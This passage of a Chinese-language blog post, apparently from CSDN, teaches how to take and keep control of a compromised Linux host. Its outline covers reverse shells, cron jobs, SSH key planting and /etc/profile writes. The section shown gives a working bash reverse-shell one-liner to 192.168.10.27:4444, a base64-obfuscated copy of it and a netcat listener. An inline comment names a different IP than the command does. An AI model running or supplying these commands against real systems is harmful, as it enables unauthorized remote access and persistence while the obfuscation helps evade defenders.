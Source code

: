 **目录**



[Bash反弹shell](#t0)



[加密bash反弹shell的流量](#t1)



[Python反弹shell](#t2)



[其他命令反弹shell](#t3)



[写入命令到定时任务文件](#t4)



[写入SSH公钥](#t5) 



[写入/etc/profile文件](#t6)



* * *



当我们可以在远程Linux主机上执行任意命令或写入任意数据到任意文件的时候，我们通常会通过以下方式控制远程主机。



### Bash反弹shell



Linux 反弹 shell 使用下面这条命令，该命令弹回来的shell是不可交互的，也就是比如 vim、passwd 命令不能用



```
bash -i >& /dev/tcp/192.168.10.27/4444 0>&1   #将shell环境转发到192.168.10.32的4444端口上       
也可以如下：      
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjI3LzQ0NDQgMD4mMSA=}|{base64,-d}|{bash,-i}
```




然后客户端用 netcat 进行接收



```
nc -lvp  4444  #监听4444端口
```




![](https://img-blog.csdnimg.cn/20181201000005599.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



使用什么样的用户反弹的 shell，还是当前用户的权限。
